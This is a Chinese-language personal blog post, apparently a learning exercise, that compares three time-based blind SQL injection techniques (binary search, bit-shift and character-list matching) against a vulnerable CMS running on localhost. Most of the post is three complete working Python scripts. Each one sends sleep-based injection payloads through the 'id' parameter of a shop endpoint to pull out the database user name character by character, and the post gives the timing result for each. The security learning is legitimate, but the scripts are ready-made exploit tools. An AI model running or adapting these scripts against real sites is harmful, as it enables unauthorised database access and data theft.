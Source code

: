 ```yaml
---
layout:	post
title:	"SQL注入-失了智的盲注尝试"
date:	2020-06-05 15:10:09 +0800
tags:	SQL注入
color:	rgb(122,103,138)
cover:	'../assets/blog_pic/20200605_stupid_sqli_blind/cover.png'
subtitle:	'Time Based With Python'

---
```


* 目录
{:toc}
这两天套娃网上的教程，实现了一下盲注脚本，在寻觅的过程中，看到一个[使用MySQL位函数和运算符进行基于时间的高效SQL盲注](https://www.freebuf.com/articles/web/188029.html)，使用“右移”运算符(>>)，枚举从SQL查询返回值的二进制位

高效厚，高效吗？俺来试一试



# 测试环境

测试环境是一个cms的sql注入漏洞，来源我就不说了，这里的sql注入就是没有过滤，但是是POST提交的方式，然后我改成了GET的方式，如果是POST的话，就是加一个data={}哈哈哈

这里木有加多线程进去，高速公路上比一比



# 二分の盲注

二分法就是，把一个顺序的区间分为两半，取中间的数，目标大于中间的数就舍弃前半段，目标小于中间的数就舍弃后半段。我这里给的区间是30-150，我先按照我的理解，写了一下二分法盲注：

```
#二分法
import requests
import datetime
import time

headers={
'Host': '127.0.0.1',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36',
'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding': 'gzip, deflate',
'X-Requested-With': 'XMLHttpRequest',
'Origin': 'http://127.0.0.1',
'Connection': 'close',
'Referer': 'http://127.0.0.1/goods/1.html',
'Cookie': 'UM_distinctid=1720c8e9f960-0fd572df9b95ed-374c2c08-15f900-1720c8e9f9a7; CNZZDATA1277972876=1114558-1589348573-%7C1589953788; PHPSESSID=hp0i4j6to52gg338ven8c69k8k'
}

def blind(k,i):
	realurl = '''http://127.0.0.1/shop/tijiao.html'''
	payload = '''?guige=s&shuliang=1&id=1)and+if(ord(substr(user(),%d,1))>=%d,sleep(4),1)--''' % (k,i)
	url = realurl + payload
	time1 = datetime.datetime.now()
	r = requests.get(url=url,headers=headers)
	time2 = datetime.datetime.now()
	sec = (time2 - time1).seconds
	return sec

def user_name():
	name = ''
	for k in range(1,15):#长度
		mini=30
		maxi=150
		midi= mini+(maxi-mini)//2

		for j in range(1,8):
			if(blind(k,midi)<3):
				maxi = midi
				midi = mini+((midi-mini)//2)
			else:
				mini = midi
				midi = mini+((maxi-midi)//2)
		name += chr(midi)
		print('user_name:',name)
		
user_name()
```

用户名root@loacalhost，用时**241.9s**



# 左移の盲注

**r**的ascii码是114，变二进制是**0111 0010**，分别左移7位、6位看一下

```
mysql> select 114>>7;
+--------+
| 114>>7 |
+--------+
|      0 |
+--------+
1 row in set (0.00 sec)

mysql> select 114>>6;
+--------+
| 114>>6 |
+--------+
|      1 |
+--------+
1 row in set (0.00 sec)
```

字符串的第一位都是0，所以我们只需要核对后七位，也就是从左移6开始

然后按照我的理解，写了一下逐位左移的盲注，感觉写的好傻 啊，已经好久没写代码了，属于头一天写第二天就看不懂那种：

```
import requests
import datetime
import time

headers={
'Host': '127.0.0.1',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36',
'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding': 'gzip, deflate',
'X-Requested-With': 'XMLHttpRequest',
'Origin': 'http://127.0.0.1',
'Connection': 'close',
'Referer': 'http://127.0.0.1/goods/1.html',
'Cookie': 'UM_distinctid=1720c8e9f960-0fd572df9b95ed-374c2c08-15f900-1720c8e9f9a7; CNZZDATA1277972876=1114558-1589348573-%7C1589953788; PHPSESSID=hp0i4j6to52gg338ven8c69k8k'
}

def blind(k,i,j):
	realurl = '''http://127.0.0.1/shop/tijiao.html'''
	payload = '''?guige=s&shuliang=1&id=1)and+if((ascii((substr(user(),%d,1)))+>>+%d)=%d,sleep(4),1)--''' % (k,i,j)
	url = realurl + payload
	time1 = datetime.datetime.now()
	r = requests.get(url=url,headers=headers)
	time2 = datetime.datetime.now()
	sec = (time2 - time1).seconds
	return sec

def user_name():
	name = ''
	for k in range(1,15):
		j = 1
		for i in range(6,-1,-1):
			if((j%2)==0):
				j += 1
			time_blind=blind(k,i,j)
			if (time_blind>1):
				if(i == 0):
					name += chr(j)
					break
				else:
					j = j * 2 + 1
			else:
				if(i == 0):
					name += chr(j - 1)
					break
				else:
					j = (j - 1) * 2
		print('user_name:',name)

user_name()
```

用户名root@loacalhost，用时**247s**(ˉ﹃ˉ)

# 小小の总结

🔥为了公平起见，两个延时都是sleep(4)

🔥二分241.9左移247用时差不多，因为二分法是每次除以2，二进制中左移其实也是2倍计算

🔥如果你确定盲注的目标的字符范围，其实有更快的方法，如下



# 匹配の盲注

先要有一个列表，这里我把我能用到的放了进去，数字，大小写字母，和一个@，然后逐个匹配，如果匹配到了就是他了

```
import requests
import datetime
import time

headers={
'Host': '127.0.0.1',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; ) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4086.0 Safari/537.36',
'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding': 'gzip, deflate',
'X-Requested-With': 'XMLHttpRequest',
'Origin': 'http://127.0.0.1',
'Connection': 'close',
'Referer': 'http://127.0.0.1/goods/1.html',
'Cookie': 'UM_distinctid=1720c8e9f960-0fd572df9b95ed-374c2c08-15f900-1720c8e9f9a7; CNZZDATA1277972876=1114558-1589348573-%7C1589953788; PHPSESSID=hp0i4j6to52gg338ven8c69k8k'
}

def user_name():
	name = ''
	for i in range(1,15):
		for j in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@':
			realurl = '''http://127.0.0.1/shop/tijiao.html'''
			payload = '''?guige=s&shuliang=1&id=1)and+if(substr(user(),%d,1)='%s',sleep(4),1)--''' % (i,j)
			url = realurl + payload

			time1 = datetime.datetime.now()
			r = requests.get(url=url,headers=headers)
			time2 = datetime.datetime.now()

			sec = (time2 - time1).seconds
			if sec >= 3:
				name += j
				break
		print('user_name:',name)

user_name()
```

用户名root@loacalhost，用时**76.8s**不香吗(。・∀・)ノ

ps：但如果你的列表里漏了一些特殊字符，那就漏了，所以还是二分和左移比较靠谱全面





# Refer

[https://www.freebuf.com/articles/web/188029.html](fuzhi)

[https://www.freebuf.com/articles/web/231741.html](zhantie)